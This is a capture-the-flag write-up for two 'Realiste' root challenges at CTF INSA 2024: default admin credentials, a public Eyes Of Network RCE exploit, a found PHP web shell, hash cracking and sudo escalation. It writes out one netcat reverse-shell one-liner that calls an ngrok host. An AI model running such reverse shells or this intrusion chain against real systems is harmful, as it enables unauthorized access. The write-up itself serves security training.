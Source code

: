 ```yaml
---
title: CTFs | CTF_INSA_2024 | Realiste
author: BatBato
date: 2024-02-05
categories:
  - CTFs
  - CTF_INSA_2024
  - Realiste
tags:
  - CVE
permalink: /CTFs/CTF_INSA_2024/Realiste/
---
```

# Réaliste
#  Le monitoring est important 

![[realiste1_sujet.png]]

In this challenge, we are tasked to become root of the machine. First we go to the login page and can log-in with the credentials `admin:admin` (before that other teams changed it).
![[raeliste1_login.png]]

There is nothing that looks interesting on this website so can search for online available exploits for `Eyes Of Netwok exploit` One common website that list exploits is Exploit-DB:

![[realiste1_exploit.png]]

We can also locally find exploit using the `searchsploit` tool:
![[realiste1_searchsploit.png]]




After a bit of digging, I found this exploit [https://github.com/h4knet/eonrce](https://github.com/h4knet/eonrce). For this to work, I only need to specify the website, my IP (here my `ngrok`) and my port. To do so, I launched my listener and my ngrok:

![[realiste1_listener.png]]

Now I just have to run the exploit:

![[realiste1_final_exploit.png]]
When heading back to our listener, we have a root shell and we can now improve it :

![[realiste1_root_shell.png.png]]

We can now read the flag at `/root/flag.txt`

# PwnMe

![[PwnMe_sujet.png]]

In this challenge, we are also tasked to become root of the machine. 

First, we can enumerate the website using `Gobuster` because there is nothing in the source code or on the page:

![[realiste2_gobuster.png]]

As you can see, there are a lot of results. Lets look at the `assets` folder:
![[realiste2_assets.png.png]]


We notice a file called `shell.php`:

![[realiste2_shell.png]]

As you can see, we can perform basic Linux command execution, lets try to execute a reverse shell command (and not be loud like the other teams uploading a lot of files):
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 4.tcp.eu.ngrok.io 14433 >/tmp/f`

We now have a shell as `www-data`, this user by default don't have rights but as you can see, we can read the content of `/home/debian/.htpasswd`:

![[realiste2_passwd.png]]
This gives us the md5 hash of the user `debian` that we can crack offline using `John` or `Hashcat` but also online using `crackstation`:  

![[realiste2_md5.png]]

We now have the password of the user `debian`. We can run `su debian` and provide the found password:

![[realiste_debian.png]]

As we can see, we can run any commands as `debian`:

![[realiste_sudo_l.png]]

So we can get a root shell as follows:

![[realiste_sudo.png]]

And now we juste have to go to the `/root` folder and recover the flag:

![[realiste_2_flag.png]]